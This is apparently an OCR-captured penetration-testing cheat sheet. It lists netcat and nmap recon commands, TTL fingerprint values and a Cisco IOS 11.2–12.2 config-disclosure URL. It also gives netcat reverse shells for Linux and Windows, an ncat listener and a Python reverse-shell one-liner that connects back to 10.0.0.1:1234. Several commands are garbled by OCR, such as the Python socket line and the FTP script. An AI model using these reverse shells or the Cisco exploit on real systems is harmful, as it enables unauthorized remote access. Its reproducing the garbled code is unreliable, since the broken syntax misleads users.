 ```sh
nc-v -u -z <IP> <Port>
```

## Recon for Specific Device Before Enumerating

```sh
sudo tcpdump 'ether host XX:XX:XX:XX:XX:XX' -i en0 -vnt > CheckScan.txt |  tee CheckScan.txt | grep --line-buffered pattern | ( while read -r line; do sudo nmap -sV -n -T4 -O2 -oX NMAPScan.xml; rm CheckScan.txt; done; ) &
```

## TTL Fingerprinting

```sh
Windows : 128 
Linux : 64 
Network : 255 
Solaris : 255
```

## Cisco IOS 11.2 - 12.2 Vulnerability

```plaintext
http://ip/level/16-99/exec/show/config
```

## FTP Through Non-Interactive Shell

```bash
echo open ip 21 ftp.txt
echo user
echo pass
echo bin
echo GET file=tp.txt echo bfe ftp.txt
ftp -s:ftp.txt
```

## NetCat Listeners

```bash
nc 10.0.0.1 1234 -e /bin/sh Linux reverse shell 
nc 10.0.0.1 1234 -e cmd.exe Windows reverse shell
```

Persistent Ncat listener:

```bash
ncat -lvk 443
```

## Python Reverse Shell

```python
python -c 'import socket,subprocess,os; s=socket.socket(socket..;;F_INET, socket.SOCK_STREAL1); s.connect( ("10.0.0.1",1234)); os.dup2 (s.fileno() ,0); os.dup2(s.fileno(l,1); os.dup2(s.file:oo(),2);
p~subprocess.call( 1"/bin/sh","-i"] I;'
```
